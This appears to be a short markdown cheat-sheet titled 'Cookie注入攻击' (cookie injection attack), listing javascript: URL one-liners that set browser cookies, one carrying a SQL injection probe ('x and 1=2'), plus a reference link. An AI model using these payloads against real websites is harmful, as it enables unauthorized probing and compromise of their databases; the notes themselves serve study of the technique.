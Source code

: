 # Cookie注入攻击

```javascript
javascript:alert(document.cookie="id="+escape("x and 1=2"));

javascript:alert(document.cookie="smallclass="+escape("148"));
javascript:alert(document.cookie="x-access-token="+escape("148"));

javascript:alert(document.cookie="smallclass="+escape("7d2pqi7kui9lca3vkkds4v1j9m210n78"));

```

[参考](https://www.cnblogs.com/zlgxzswjy/p/6443767.html)
